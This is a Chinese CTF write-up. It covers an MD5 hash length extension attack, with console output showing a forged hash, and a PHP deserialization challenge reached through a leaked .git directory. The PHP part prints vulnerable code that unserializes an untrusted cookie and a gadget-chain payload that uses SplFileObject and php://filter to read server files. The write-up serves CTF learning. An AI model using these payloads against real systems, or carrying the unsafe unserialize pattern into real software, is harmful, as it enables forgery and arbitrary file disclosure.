



# CCF智能汽车大赛

## easylogin(Hash长度拓展攻击)

​	这道题的考点是哈希长度拓展攻击，由于无法找到原题就随便找到题代替了。

​	对于MD5算法来说，我们需要将原数据进行分块处理，以512位个二进制数据为一块。”最后“一块的处理分为以下几种情况：

- 明文数据的二进制数据长度<=448，填充padding(无意义占位)数据使其长度为448，再添加原始明文数据的二进制长度信息（64位）使其长度为512位即可。
- 448<明文数据的二进制数据长度<=512，填充padding数据至下一块的448位，而后再添加原始明文数据的二进制长度信息（64位）使其长度为512位即可。





注意：每块数据的长度均为**512**位二进制，图中的数据我没有全都用二进制来表示，将明文数据分块之后就可以与向量进行运算了。

对于padding数据（长度不定）来说：首位二进制位1，其余位为0.

对于长度信息位（长度8Byte=64bit）来说，从低位向高位数，如上图的长度信息：`f0 03 00 00 00 00 00 00`即代表0x03f0，其对应的十进制为1008，即为64+62=126个字符的二进制位数(一个字符1Byte即8bit)。

对于MD5算法来说，有一串初始向量如下：

```
A=0x67452301
B=0xefcdab89
C=0x98badcfe
D=0x10325476
```

这串初始向量的值是固定的，作为与第一块数据运算的原始向量。

当这串向量与第一块数据块运算之后，得到了一串新的向量值，这串新的向量值接着与第二块数据块参加运算，直到最后一块数据块。

如下图所示：



而最后的MD5值就是这最后的向量串经过如下转换的结果。

如向量串：

```
A=0xab45bc01
B=0x6a64bb53
C=0x23ba8afe
D=0x46847a62
```

先两两为一组进行组合，得到如下数据：

```
ab 45 bc 01
6a 64 bb 53
23 ba 8a fe
46 84 7a 62
```

再进行高低位互换，得到如下数据：

```
01 bc 45 ab
53 bb 64 6a
fe 8a ba 23
62 7a 84 46
```

最终拼接得到MD5值：`01bc45ab53bb646afe8aba23627a8446`。

​	可以利用的工具有**hashpump**(需要自己编译)，或者**hash-ext-attack**(基于python)。

```shell
(ctf) ➜  hash-ext-attack git:(master) python hash_ext_attack.py
2025-08-13 11:27:44.735 | DEBUG    | common.md5_manual:__init__:17 - init......
请输入已知明文：test
请输入已知hash： 2df51a84abc64a28740d6d2ae8cd7b16
请输入扩展字符: abc
请输入密钥长度：6
2025-08-13 11:27:55.272 | INFO     | common.HashExtAttack:run:65 - 已知明文：b'test'
2025-08-13 11:27:55.272 | INFO     | common.HashExtAttack:run:66 - 已知hash：b'2df51a84abc64a28740d6d2ae8cd7b16'
2025-08-13 11:27:55.272 | INFO     | common.HashExtAttack:run:68 - 新明文：b'test\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00P\x00\x00\x00\x00\x00\x00\x00abc'
2025-08-13 11:27:55.273 | INFO     | common.HashExtAttack:run:69 - 新明文(url编码)：test%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00P%00%00%00%00%00%00%00abc
2025-08-13 11:27:55.273 | INFO     | common.HashExtAttack:run:71 - 新hash:bac6cb2d585d2de3f5f48f2759d2e5a7

```

​	这里理解还是存在不足，或许学习了密码学相关知识后会有更深入的了解。

## serp

 这题涉及git泄漏，我们通过/.git/获取到题目源码

```php+HTML
<?php 
include("./posts.php");
$posts = [new Post("test", "test")];
$posts = unserialize(strval($_COOKIE["posts"]));

if($_POST["post"]){
	$post = (new Maker("Post", $_POST["post"]))->getInstance();
	$posts[] = $post;
	setcookie("posts", serialize($posts));	
}
?>
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>User Center</title>
    <link rel="stylesheet" href="bulma.min.css">
</head>

<body>
    <nav class="navbar">
        <div class="container">
	    <div class="navbar-brand">
                <span class="navbar-item is-white">User Center</span>
            </div>
        </div>
    </nav>
    <section class="section">
        <div class="container">
            <div class="column is-8 is-offset-2 ">
                <div class="box">
                    <form method="POST" action="/?add">
                        <div class="field"><input class="input" name="post[]"/></div>
                        <div class="field"><textarea class="textarea" name="post[]"/></textarea></div>
			<div class="field"><button class="button is-link" type="submit">Send</button></div>
                    </form>
		    <hr>
		    <?php foreach($posts as $post): ?>
		    <div class="field">
		        <h3><b><?= $post->title; ?></b></h3>
		        <p><?= $post->content; ?></p>
		    </div>
		    <?php endforeach; ?>
                </div>
            	<div>
            		<h5 class="has-text-light">build by git</h5>
            		<p class="is-hidden">
            		<?php foreach(scandir(".") as $d): ?>
            		<?= strval($d); ?>
            		<?php endforeach; ?>
            		<p>
            	</div>
            </div>
        </div>
    </section>

</body>

</html>
```

index.html

```php
<?php
class Post {
	public $title;
	public $content;
	public function __construct($title, $content) {
		$this->title = $title;
		$this->content = $content;
	}
	public function __toString() {
		return $this->title . "/" . $this->content;
	}
}
class Maker {
	public $model = "Post";
	public $args = ["Title", "Contents"];
	protected $obj = null;
	public function __construct($model, $args){
		$this->model = $model;
		$this->args = $args;
	}
	public function getInstance() {
		if($this->obj == null) {
			$this->obj = new $this->model(...$this->args);
		}
		return $this->obj;
	}
	public function __toString() {
		return "object(". $this->model ."){" . strval($this->getInstance()) . "}";
	}
	public function __destruct() {
		$this->obj = null;
	}
}
```

posts.php

​	开始搓链子

```
Maker(__toString())->Maker(getInstance())->Post(__construct())
```

```php
$p = [
    0=>"test",
    1=>new Maker("SplFileObject",["php://filter/convert.base64-encode/resource=t.py"])
];
$post = (new Maker("Post", $p))->getInstance();
$posts[] = $post;
$a=serialize($posts);
echo urlencode($a)."\n";    
echo unserialize($a)[0]->content;   
```

